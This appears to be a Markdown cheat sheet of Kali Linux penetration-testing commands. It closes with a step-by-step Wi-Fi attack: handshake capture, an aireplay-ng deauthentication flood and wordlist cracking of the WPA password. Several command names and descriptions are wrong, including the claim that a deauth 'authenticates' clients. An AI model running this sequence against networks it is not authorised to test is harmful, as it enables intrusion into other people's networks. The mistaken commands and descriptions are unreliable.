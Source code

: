 ```yaml
---
title: Kali-linux commands
description: Kali Linux is a Debian-derived Linux distribution that is maintained by Offensive Security.
created: 2022-10-11
updated: 2018-10-11
---
```


# Kali Linux 

Kali Linux is a Debian-derived Linux distribution that is maintained by Offensive Security. It is for those who work under the umbrella of cybersecurity and analysis.

## Kali Linux tools for hacking and penetration testing 

### 1. Pinging the host 
```sh
$ ping hostname               # Used for pinging the host
```

### 2. Nmap 
```sh
$ nmap -sV ipaddress          # Used for recon/scan the networks
```

### 3. Burpsuite
```sh
$ burpsuite                   # Used for 'burpsuite' security testing software
```

### 4. Metasploit framework 
```sh
$ mfconsole                 # Opens a penetration testing framework 'Metasploit'
```

### 5. Aircrack
```sh
$ aircrack-ng               # Opens a wi-fi hacking 'Aircrack' tool
```

### 6. John the riper 
```sh
$ john                      # Opens a password cracking tool
```

### 7. Sqlmap
```sh
$ sqlmap                    # It is widely used in sql injection attacks
```

### 8. Autopsy
```sh
$ autopsy                   # Opens a digital foensic tool
```

### 9. Social Engineering Toolkit
```sh
$ setoolkit                # Used in social engineering attacks
```

## Kali linux tools for Wi-fi hacking

### 1. List all the networks
```sh
$ airmon-ng             # Lists all the available network interfaces
```

### 2. Monitor the designed network interface
```sh
$ airmon-ng start wlan0 1      # Used for monitoring network interafce
```
- **wlan0** : Desired wi-fi network

### 3. Capture the network interface network
```sh
$ aiodump-ng wlan0mon       # Used for capturing the traffic
```
- **wlan0mon** : Desired wi-fi network

### 4. Capture required data from specific network
```sh
$ airodump-ng --bssid 09:98:98:98:98:98 -c 1 --write psk wlan0mon
# Capturing the data from network
```
- **09:98:98:98:98:98** : bssid of network
- **-c 1** : channel number
- **psk** : the file in which captured data is stored
- **wlan0mon** : Desired wi-fi network

### 5. Authorization of client 
```sh
$ aireplay-ng --deauth 100 -a 09:98:98:98:98:98 wlan0mon
# Used for authenticatng the client
```
- **09:98:98:98:98:98** : bssid of network
- **wlan0mon** : Desired wi-fi network

### 6. Stop Wi-fi interface monitoring 
```sh
$ airmon-ng stop wlan0mon     # Sets the wi-fi interface back to its default stage
``` 
- **wlan0mon** : Desired wi-fi network

### 7. Cracking password 
```sh
$ aircrack-ng -w wordlist psk*.cap  # Gets the password by brute force attack
```
- **psk*.cap* : captured handshake file
- **wordlist** : password to be tested 
